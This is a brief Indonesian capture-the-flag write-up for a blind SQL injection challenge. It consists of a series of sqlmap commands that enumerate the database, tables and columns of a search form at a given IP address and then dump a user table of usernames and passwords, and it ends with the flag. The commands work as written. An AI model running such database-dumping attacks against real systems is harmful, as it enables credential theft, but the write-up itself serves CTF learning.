 # Are you blind yes maybe

diberikan sebuah web berisi sebuah inputan <br>
diketahui bahwa terdapat celah sqli injection pada form tersebut dengan method POST <br>
dicoba dengan melakukan blind Sql Injection menggunakan sqlmap 

``` sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST --dbs ``` <br>

didapat sebuah database bernama sql, kita coba temukan tabelnya<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --tables -D \`sql\` ``` <br>

didapat sebuah tabel 'user', coba cek kolom terlebih dahulu.<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --columns -D \`sql\` -T user ``` <br>


didapat kolom yang mencurigakan berisi username dan pasword, langsung saja lakukan dump <br>
``` sqlmap -u http://202.43.92.132:40001/index.php --data="search=s&form=submit" --method POST --dump -D \`sql\` -T user ```<br>

<img src="sqlmap.jpg"><br>

**ASGama{L00k1ng_f0R_s0m3_fl4g?}**
